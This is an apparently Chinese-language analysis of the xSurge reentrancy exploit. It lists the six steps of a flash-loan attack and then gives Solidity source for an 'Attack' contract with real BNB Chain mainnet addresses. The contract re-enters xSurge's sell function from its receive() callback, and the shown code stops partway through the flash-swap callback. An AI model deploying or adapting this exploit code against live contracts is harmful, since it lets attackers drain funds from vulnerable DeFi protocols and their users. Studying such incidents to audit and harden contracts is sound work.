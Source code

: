 1. 在攻击合约的 receive()回调中，通过 maxSellNumber 控制最后一次**不要执行**“向 xSurge 转入 BNB，再次买入 xSurge”的操作(如果每次都执行这个操作，最终的资金全部在 xSurge 中，最终会把所有的资金锁死)。
2. 攻击流程如下：
   1. 闪电贷 10000 个 WBNB，将 10000 个 WBNB 换成 10000 个原生代币 BNB
   2. 使用 10000 个 BNB 购买 xSurgeToken
   3. 调用 xSurge.sell，触发漏洞。同时在攻击合约的 fallback 中再次买入 xSurge 的操作。
   4. 重复 c 中的操作方法 maxSellNumber-1 次
   5. 调用 xSurge.sell,此时攻击合约的 fallback 中不再买入 xSurge，此时攻击合约会得到 BNB
   6. 攻击合约将得到的 BNB，转换成 WBNB 后，归还闪电贷后剩下的 WBNB 就是黑客攻击所得。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/access/Ownable.sol";
import "./interfaces/Uniswap.sol";
import "hardhat/console.sol";
import "./IXsurge.sol";
import "./interfaces/IWBNB.sol";
interface IPancakeCallee {
    function pancakeCall(address sender, uint amount0, uint amount1, bytes calldata data) external;
}
contract Attack is IPancakeCallee, Ownable{
    address private constant UniswapV2Factory = 0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f;

    address private constant WBNB = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
    address private constant PancakeToken= 0x0E09FaBB73Bd3Ade0a17ECC321fD13a19e81cE82;
    address private constant PancakeFactory = 0xcA143Ce32Fe78f1f7019d7d551a6402fC5350c73;
    address private constant PanckaePair = 0x0eD7e52944161450477ee417DE9Cd3a859b14fD0;
    address private constant surgeTokenAddr = 0xE1E1Aa58983F6b8eE8E4eCD206ceA6578F036c21;

    uint256 curSellNumber = 0;
    uint256 constant maxSellNumber = 8;
    constructor(){

    }
    fallback() external {}
    receive() payable external {
        if(msg.sender==surgeTokenAddr && curSellNumber<=maxSellNumber-1){
            console.log("[recevie()]AttackContract xsurge balance:%s, BNB balance:%s",
                        ISurgeToken(payable(surgeTokenAddr)).balanceOf(address(this)),
                        address(this).balance);
            uint256 hackContractXsurge = IERC20(surgeTokenAddr).balanceOf(address(this));
            payable(surgeTokenAddr).call{value:address(this).balance}(""); // 向xSurge转入BNB，再次买入xSurge
        }
    }

    function  startAttack(address _tokenBorrow, uint256 _amount) public onlyOwner {

        address pair = IUniswapV2Factory(PancakeFactory).getPair(_tokenBorrow, PancakeToken);
        require(pair!=address(0), "the pair _tokenBorrow is not exist...");
        address token0 = IUniswapV2Pair(pair).token0();
        address token1 = IUniswapV2Pair(pair).token1();
        uint256 amount0Out = _tokenBorrow==token0 ? _amount : 0;
        uint256 amount1Out = _tokenBorrow== token1 ? _amount : 0;
        bytes memory data = abi.encode(_tokenBorrow, _amount);
        IUniswapV2Pair(pair).swap(amount0Out, amount1Out, address(this), data);
    }

    function pancakeCall(address _sender, uint amount0, uint amount1, bytes calldata _data) external override{
        address token0 = IUniswapV2Pair(msg.sender).token0();
        address token1 = IUniswapV2Pair(msg.sender).token1();
```
